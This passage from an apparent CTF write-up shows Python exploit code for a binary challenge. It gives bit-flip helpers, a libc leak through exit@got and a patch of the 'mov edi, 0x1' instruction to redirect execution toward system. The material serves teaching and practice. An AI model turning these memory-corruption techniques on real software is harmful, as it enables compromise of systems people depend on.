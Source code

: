 ```python
    bit_modify(addr, 1)
    
    # return the leaked bit
    return x
```

{% hint style="info" %}
You'll notice this function *does* modify the data there, but it switches it back!
{% endhint %}

The third function is `string_modify`, which takes an initial address and does a series of modifications. This is used to change instructions or series of addresses.
```python
def string_modify(base, old, new):
    to_change = bytes(a ^ b for a, b in zip(old, new))
    to_change_bytes = [format(byte, '08b') for byte in to_change]

    for byte in range(len(to_change_bytes)):
        for bit in range(len(to_change_bytes[byte])):
            if to_change_bytes[byte][bit] == '1':
                bit_modify(base + byte, bit)
```

Now that we have these helper functions, we can write the rest of our exploit.  Getting the addresses of most of the data here is trivial, so I'll leave it as an exercise to the reader.

1. Flip the return bit to allow infinite runs of the binary
    ```python
    print('Permitting infinite read/write...')
    bit_modify(0x4015e9, 2)
    ```

2. Leak `libc` using the program's output. I leaked `exit@got` and then used the provided `libc` file to get the offset in `libc`.
    ```python
    print('Leaking libc...')
    exit_got = bytearray()
    for i in range(8):
        exit_got += read(0x403fe8 + i)
    exit_got = u64(exit_got)
    print('\texit address:', hex(exit_got))

    libc.address = exit_got - libc.sym.exit
    print('\tlibc leaked:', hex(libc.address))
    system_got = libc.sym.system
    print('\tsystem address:', hex(system_got))
    ```

3. Modify the `mov edi, 0x1` instruction. This is the most difficult part of the exploit. We must find the address of the instruction, and then modify it to `mov edi, edx`.
    ```python
    print('Modifying MOV EDI, 0x1 instruction')
    string_modify(0x401552, b"\xbf\x01\x00\x00\x00", b"\x48\x89\xd7\x90\x90")
    ```
